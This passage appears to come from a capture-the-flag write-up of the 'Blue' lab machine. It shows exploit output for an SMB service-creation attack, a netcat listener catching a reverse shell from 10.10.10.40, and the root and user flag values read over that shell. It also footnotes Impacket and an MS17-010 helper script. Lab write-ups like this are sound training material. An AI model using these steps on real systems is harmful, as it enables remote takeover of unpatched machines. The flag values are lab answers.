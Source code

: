 ``` 
overwriting session security context
Sending file 2CM2VQ.exe...
Opening SVCManager on 10.10.10.40.....
Creating service vWCH.....
Starting service vWCH.....
The NETBIOS connection with the remote host timed out.
Removing service vWCH.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done

[-----TERMINAL-2-----]
➜  Blue  nc -nvlp 9095                                         
Connection from 10.10.10.40:49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
ff548eb71e920ff6c08843ce9df4e717
C:\Users\Administrator\Desktop>cd C:\Users
cd C:\Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A0EF-1911

 Directory of C:\Users

21/07/2017  06:56    <DIR>          .
21/07/2017  06:56    <DIR>          ..
21/07/2017  06:56    <DIR>          Administrator
14/07/2017  13:45    <DIR>          haris
12/04/2011  07:51    <DIR>          Public
			   0 File(s)              0 bytes
			   5 Dir(s)  15,888,822,272 bytes free

C:\Users>cd haris\Desktop 
cd haris\Desktop

C:\Users\haris\Desktop>type user.txt
type user.txt
4c546aea7dbee75cbd71de245c8deea9
```

[^fn4]: Impacket can be installed through *pip install impacket*
[^fn5]: [mysmb.py](https://github.com/worawit/MS17-010/blob/master/mysmb.py)